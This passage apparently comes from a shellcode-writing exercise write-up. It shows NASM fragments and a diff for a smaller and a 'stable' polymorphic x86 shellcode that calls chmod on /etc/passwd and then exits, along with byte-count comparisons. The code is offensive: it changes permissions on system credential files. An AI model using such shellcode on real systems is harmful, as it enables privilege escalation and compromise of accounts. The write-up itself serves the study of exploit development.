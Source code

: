 ```nasm
    pop ebx

    ; call chmod()
    int 0x80

    ; invoke the exit syscall
    ; exit code is set to ESP, but it's not important
    mov eax, edx
    inc eax
    int 0x80
```

The original shellcode uses `57` bytes, while this one uses `52` bytes:

```bash
objcopy -O binary -j .text ./shellcode.o /dev/stdout | wc -c

# 52
```

Although, I managed to make it smaller, it requires one **condition**:

- the call to `chmod` MUST be successful, hence store `0` into `EAX`

If the register `EAX` isn't set to 0, then the next call will throw a `SIGSEGV` signal, so the program will crash.

#### Focus on stability

For this reason, I also wrote a slightly different version that handles this case, not the SIGSEGV error but clearing the EAX register:

```patch
--- polymorphic_tiny.nasm       2022-01-12 07:54:18.947129214 +0000
+++ polymorphic_stable.nasm     2022-01-12 07:53:52.437239057 +0000
@@ -37,7 +37,9 @@
     ; call chmod()
     int 0x80
 
+    ; set EAX to 0 and push it to the stack;
     ; like before, it acts as the string terminator
+    mov eax, edx
     push eax
 
     ; push "/etc//passwd" to the stack
@@ -60,5 +62,6 @@
 
     ; invoke the exit syscall
     ; exit code is set to ESP, but it's not important
+    mov eax, edx
     inc eax
     int 0x80
```

Since I used the instruction `mul ecx` at the beginning, it means `EDX` and `EAX` are set to 0. Moreover, given `EDX` is never used, it means I could use it to clear other registers.

In this case I repeated two times the following instruction:

```nasm
mov eax, edx
```

Although not very small, at `56` bytes, this stable polymorphic version is still smaller than the original shellcode. 
